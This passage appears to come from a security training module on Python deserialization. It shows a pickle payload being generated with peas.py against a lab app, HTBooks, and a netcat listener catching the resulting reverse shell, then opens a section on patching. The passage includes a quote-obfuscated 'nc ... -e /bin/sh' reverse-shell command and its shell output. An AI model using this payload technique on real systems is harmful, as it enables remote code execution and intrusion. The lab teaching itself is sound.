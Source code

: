 We can try generating the payload again with the modified version of `peas.py`:

```shell
python3 peas.py

Enter RCE command :n''c -nv 172.17.0.1 9999 -e /bin/s''h
Enter operating system of target [linux/windows] . Default is linux :
Want to base64 encode payload ? [N/y] :y
Enter File location and name to save :/tmp/payload
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :pickle
Done Saving file !!!!

```

You may notice that the generated payload is much longer than the one we created ourselves. This is (mainly) because `peas.py` encodes strings with `chr()` so they end up looking like `chr(61) + chr(62) + chr(60) + ...`. Anyways, starting a local Netcat listener and pasting the cookie value in should now work and give us a reverse shell:

```shell
nc -nvlp 9999

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:39385.
ls -l
total 56
-rw-r--r--    1 root     root           184 Oct 11 12:55 Dockerfile
drwxr-xr-x    1 root     root          4096 Oct 11 18:18 __pycache__
-rw-r--r--    1 root     root          2038 Oct 11 12:57 app.py
-rw-r--r--    1 root     root            37 Oct 10 16:51 flag.txt
-rw-r--r--    1 root     root         20480 Oct 11 18:18 htbooks.sqlite3
-rw-r--r--    1 root     root            27 Oct 11 12:59 requirements.txt
drwxr-xr-x    4 root     root          4096 Oct 10 16:51 static
drwxr-xr-x    2 root     root          4096 Oct 10 16:51 templates
drwxr-xr-x    1 root     root          4096 Oct 10 16:51 util

```


# Patching Deserialization Vulnerabilities

* * *

Download the source code for HTBooks and follow along to this section on your own machine. Install all dependencies with `apt install sqlite3 python3-pip` then `pip3 install -r requirements.txt` and finally start the server with `python3 -m flask run`

* * *

## Introduction to HMACs
